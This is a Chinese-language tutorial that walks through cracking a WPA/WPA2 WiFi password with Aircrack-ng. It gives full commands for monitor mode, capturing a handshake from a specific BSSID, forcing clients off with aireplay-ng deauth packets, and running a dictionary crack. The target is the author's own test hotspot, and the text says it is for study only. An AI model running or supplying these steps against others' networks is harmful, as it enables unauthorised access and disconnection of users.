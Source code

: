 # 使用 Aircrack-ng 暴力破解 WPA/WPA2 加密的 WiFi
## 1.写在前面
目前，主流的 WiFi 加密方式是 WPA/WPA2，使用 Aircrack-ng 工具可以捕获 WPA/​WPA2 握手包并对其进行暴力破解。本文介绍如何使用此工具来对附近的 WiFi 进行监听、抓包和暴力破解。<br>

感兴趣的读者可以提前学习一下 WPA/​WPA2 加密方式的细节，以及无线监听的原理。<br>

在这篇文章中，我们自己建立一个 WPA/​WPA2 加密的、密码不是很强的 WiFi 热点作为我们的目标，然后使用 Air­crack-ng 工具对其进行破解并拿到口令（即 WiFi 密码）。<br>

本文中破解 WiFi 的方法仅用于学习和交流，不得用于非法用途！<br>

## 2.准备
必备环境<br>
```
1.支持监听模式的无线网卡；
2.运行 Linux 的设备（本文以 VMware 虚拟机下的 Centos 为例）；
3.一个包含了常见弱口令的字典。
```

## 3.安装 Aircrack-ng 套件
### 3.1.apt直接从软件源安装
```
sudo apt install aircrack-ng
```

### 3.2.centos源码安装
去官网[https://www.aircrack-ng.org/](https://www.aircrack-ng.org/)<br>
![fail](img/1.1.PNG)<br>
[安装方法也在官网](https://www.aircrack-ng.org/doku.php?id=install_aircrack#installing_aircrack-ng_from_source)<br>
```
 tar -zxvf aircrack-ng-1.5.2.tar.gz
 cd aircrack-ng-1.5.2
 autoreconf -i
 ./configure --with-experimental
 make
 make install
 ldconfig
```

## 4.开启监听模式
#### 4.1.首先执行以下命令查看网卡信息：
```
iwconfig
```
如下图所示，我的无线网卡名称为 “wlan0”<br>
![fail](img/1.2.PNG)<br>

#### 4.2.杀掉冲突进程：
如果不执行这一步，则有可能不能成功开启监听模式。在以下工作开始前务必执行这一步。<br>
```
airmon-ng check kill
```
可以多执行几遍<br>

#### 4.3.为无线网卡开启监听模式：
```
airmon-ng start wlan0
```
此时如果再执行 iw­con­fig，会发现 wlan0 已经变成了处于 Monitor 模式的 wlan0­mon<br>
![fail](img/1.3.PNG)<br>

## 4.抓包

#### 4.1.执行以下命令，获取所有附近 AP 的信息：
```
airodump-ng wlan0mon
```
![fail](img/1.4.PNG)<br>
在列表中可以看到 SSID 为 “%XJC%” 的目标热点。此时按下 Ctrl + C 停止抓包，这样信息就不会一直刷新而影响观看了。<br>
现在，记下目标热点的 BSSID（热点 MAC 地址）：8C:A6:DF:DC:7A:BA。也记下 CH（信道）：11。<br>


#### 4.2.监听目标热点
执行以下命令，其中 ``[网卡]`` 代表处于监听模式的网卡名称，``[信道]`` 就是上面看到的 CH 的值，``[BSSID]`` 是目标的 BSSID，``[文件路径]`` 代表要保存抓包结果的文件。<br>
```
airodump-ng wlan0mon --ivs -c 11 --bssid 8C:A6:DF:DC:7A:BA -w wifi_cap
```
- --bssid 是路由器的mac地址
- -w 是写入到文件longas中
- -c 11 是频道11
- --ivs 是只抓取可用于破解的IVS数据报文

#### 4.3.抓握手包
抓包过程中，如果有客户端连接到目标热点，我们就可以抓到 WPA 握手包，如下图所示。抓到握手包后就可以 Ctrl + C 退出了。<br>
![fail](img/1.5.PNG)<br>

> 注意，**只有开始抓包后客户端连接热点** ，我们才可能抓到握手包，注意这个顺序。在本次实验中，你可以手动将你的手机连入热点。当然，也可使用渗透工具使已连接的客户端强制重连，研究 aireplay-ng 工具的使用。<br>

如果没有抓到握手包,则如下图:<br>

> 这里为了获得破解所需的WPA2握手验证的整个完整数据包，我们将会发送一种称之为“Deauth”的数据包来将已经连接至无线路由器的合法无线客户端强制断开，此时，客户端就会自动重新连接无线路由器，我们也就有机会捕获到包含WPA2握手验证的完整数据包了。<br>

此处需要新开一个shell：<br>
![fail](img/1.6.PNG)<br>
```
aireplay-ng -0 1 -a 8C:A6:DF:DC:7A:BA -c E0:94:67:9E:B6:4B wlan0mon
```
- -0 采用deauth攻击模式，后面跟上攻击次数，这里我设置为1，大家可以根据实际情况设置为10不等
- -a 后跟路由器的mac地址
- -c 后跟客户端的mac地址

这时候我们回到刚才的那个抓包页面<br>
![fail](img/1.7.PNG)<br>
出现之后攻击阶段与抓包阶段就结束了，可以中断抓包了。<br>
![fail](img/1.8.PNG)<br>

## 5.破解阶段
```
aircrack-ng -w top3000.txt wifi_cap-01.ivs
```
- top3000.txt是我们的字典
![fail](img/1.9.PNG)<br>

## 6.结束
```
airmon-ng stop wlan0
```
